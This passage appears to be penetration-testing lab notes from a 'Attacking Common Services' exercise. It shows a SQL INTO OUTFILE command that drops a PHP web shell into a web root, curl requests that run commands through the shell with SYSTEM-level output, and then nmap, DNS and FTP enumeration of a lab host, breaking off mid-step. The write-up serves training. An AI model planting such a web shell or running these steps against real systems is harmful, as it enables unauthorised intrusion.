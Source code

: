     ```sh
    SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE 'C:/xampp/htdocs/shell.php';
    ```
  
  * We can check if the shell works:

    ```sh
    # in attacker machine
    curl http://10.129.203.7/shell.php?c=whoami
    # nt authority\system

    curl http://10.129.203.7/shell.php?c=dir

    curl http://10.129.203.7/shell.php?c=dir%20C:%5C
    # url encoded command for 'dir C:\'

    # the flag can be found in Administrator Desktop
    ```

* Attacking Common Services - Medium:

  * ```nmap``` scan - ```nmap -T4 -p- -A -Pn -v 10.129.201.127```:

    * 22/tcp - ssh - OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
    * 53/tcp - domain - ISC BIND 9.16.1 (Ubuntu Linux)
    * 110/tcp - pop3 - Dovecot pop3d
    * 995/tcp - ssl/pop3 - Dovecot pop3d
    * 2121/tcp - ftp
    * 30021/tcp - ftp
  
  * Enumerating DNS:

    ```sh
    # we can use the subbrute tool
    cd subbrute

    echo "10.129.201.127" > ./resolvers.txt

    ./subbrute.py inlanefreight.com -s ./names.txt -r ./resolvers.txt
    # this does not work as intended since target server is not a nameserver
    ```
  
  * Enumerating FTP on both ports:

    ```sh
    ftp 10.129.201.127 2121
    # anonymous mode does not work
